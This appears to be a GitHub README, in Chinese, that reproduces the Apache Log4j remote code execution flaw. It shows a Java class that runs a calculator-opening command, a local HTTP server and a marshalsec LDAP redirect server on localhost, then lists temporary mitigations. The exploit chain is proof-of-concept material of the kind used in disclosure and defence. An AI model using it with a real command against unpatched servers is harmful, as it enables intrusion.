 # Apache-Log4j
[Apache Log4j 远程代码执行](https://github.com/askDing/apache-log4j-poc)

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

![image](https://user-images.githubusercontent.com/45926593/145425339-47c71230-87d2-4519-8919-9c3520850f83.png)

## 复线步骤
### 编译exp-修改Log4jRCE.java
``` java
public class Log4jRCE {
    static{
        try{
            String[] cmd={"open","/System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
### python起个本地简易web服务
在target/classes目录下执行 `python3 -m http.server 8888`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210134009.png)

### 在本地起一个ldap服务
`java  -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210141034.png)

### 运行log4j.java程序
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210134659.png)

## 临时修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true


①在jvm启动参数中添加

`-Dlog4j2.formatMsgNoLookups=true`

![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210151940.png)


②系统环境变量中配置

`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210152021.png)


③项⽬中创建log4j2.component.properties⽂件，⽂件中增加配置`log4j2.formatMsgNoLookups=true`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210152139.png)
